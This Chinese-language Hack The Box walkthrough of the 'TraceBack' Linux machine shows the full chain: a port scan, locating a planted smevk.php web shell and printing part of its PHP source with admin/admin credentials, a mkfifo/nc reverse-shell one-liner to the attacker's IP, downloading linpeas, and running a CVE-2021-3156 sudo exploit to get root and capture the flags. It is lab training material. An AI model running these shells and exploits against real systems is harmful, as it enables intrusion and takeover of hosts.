 ###### tags: `Hack the box` `HTB` `Easy` `Linux`

# TraceBack
```
┌──(kali㉿kali)-[~/htb]
└─$ rustscan -a 10.129.27.6 -u 5000 -t 8000 --scripts -- -n -Pn -sVC

Open 10.129.27.6:22
Open 10.129.27.6:80

PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 96:25:51:8e:6c:83:07:48:ce:11:4b:1f:e5:6d:8a:28 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDbMNfxYPZGAdOf2OAbwXhXDi43/QOeh5OwK7Me/l15Bej9yfkZwuLhyslDCYIvi4fh/2ZxB0MecNYHM+Sf4xR/CqPgIjQ+NuyAPI/c9iXDDhzJ+HShRR5WIqsqBHwtsQFrcQXcfQFYlC+NFj5ro9wfl2+UvDO6srTUxl+GaaabePYm2u0mlmfwHqlaQaB8HOUb436IdavyTdvpW7LTz4qKASrCTPaawigDymMEQTRYXY4vSemIGMD1JbfpErh0mrFt0Hu12dmL6LrqNmUcbakxOXvZATisHU5TloxqH/p2iWJSwFi/g0YyR2JZnIB65fGTLjIhZsOohtSG7vrPk+cZ
|   256 54:bd:46:71:14:bd:b2:42:a1:b6:b0:2d:94:14:3b:0d (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBD2jCEklOC94CKIBj9Lguh3lmTWDFYq41QkI5AtFSx7x+8uOCGaFTqTwphwmfkwZTHL1pzOMoJTrGAN8T7LA2j0=
|   256 4d:c3:f8:52:b8:85:ec:9c:3e:4d:57:2c:4a:82:fd:86 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIL4LOW9SgPQeTZubVmd+RsoO3fhSjRSWjps7UtHOc10p
80/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Help us
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-methods: 
|_  Supported Methods: POST OPTIONS HEAD GET
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

他在`http://10.129.27.6/`的頁面裡面有一個`Xh4H`，去google可ˇ找到他的[github](https://github.com/Xh4H)，他說有`backdoor`，在`respository`裡面搜尋shell可以找到[Web-Shells](https://github.com/Xh4H/Web-Shells)

![TraceBack_1.png](picture/TraceBack_1.png)

一個一個try看能不能中，果然中了`http://10.129.27.6/smevk.php`，點開裡面的[code](https://github.com/Xh4H/Web-Shells/blob/master/smevk.php)發現是用`admin/admin`登入

```php
<?php 
/*

SmEvK_PaThAn Shell v3 Coded by Kashif Khan .
https://www.facebook.com/smevkpathan
smevkpathan@gmail.com
Edit Shell according to your choice.
Domain read bypass.
Enjoy!

*/
//Make your setting here.
$deface_url = 'http://pastebin.com/raw.php?i=FHfxsFGT';  //deface url here(pastebin).
$UserName = "admin";                                      //Your UserName here.
$auth_pass = "admin";                                  //Your Password.
//Change Shell Theme here//
$color = "#8B008B";                                   //Fonts color modify here.
$Theme = '#8B008B';                                    //Change border-color accoriding to your choice.
$TabsColor = '#0E5061';                              //Change tabs color here.
#-------------------------------------------------------------------------------

?>
<?php
$smevk = "PD9waHAKCiRkZWZhdWx0X2FjdGl...
...
```

開啟nc，在下面`Execute`用reverse
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.54 4444 >/tmp/f

┌──(kali㉿kali)-[~/htb]
└─$ rlwrap -cAr nc -nvlp4444

$ python3 -c 'import pty; pty.spawn("/bin/bash")'
webadmin@traceback:/var/www/html$
```

用linpeas
```
webadmin@traceback:/tmp$ wget 10.10.14.54/linpeas.sh
webadmin@traceback:/tmp$ chmod +x linpeas.sh
webadmin@traceback:/tmp$ ./linpeas.sh

[+] [CVE-2021-3156] sudo Baron Samedit

   Details: https://www.qualys.com/2021/01/26/cve-2021-3156/baron-samedit-heap-based-overflow-sudo.txt
   Exposure: probable
   Tags: mint=19,[ ubuntu=18|20 ], debian=10
   Download URL: https://codeload.github.com/blasty/CVE-2021-3156/zip/main

[+] [CVE-2021-3156] sudo Baron Samedit 2

   Details: https://www.qualys.com/2021/01/26/cve-2021-3156/baron-samedit-heap-based-overflow-sudo.txt
   Exposure: probable
   Tags: centos=6|7|8,[ ubuntu=14|16|17|18|19|20 ], debian=9|10
   Download URL: https://codeload.github.com/worawit/CVE-2021-3156/zip/main
```

用[CVE-2021-3156](https://github.com/worawit/CVE-2021-3156?tab=readme-ov-file)得root，在`/home/sysadmin`得user.txt，在/root得root.txt
```
webadmin@traceback:/tmp$ wget 10.10.14.54/exploit_nss.py
webadmin@traceback:/tmp$ python3 exploit_nss.py

# python3 -c 'import pty; pty.spawn("/bin/bash")'
root@traceback:/home/sysadmin# cat user.txt
c6658bc0aea49a9aa70fa76258d998f1

root@traceback:/root# cat root.txt
98132596c8143591ea8c4bcc8d848fa4
```
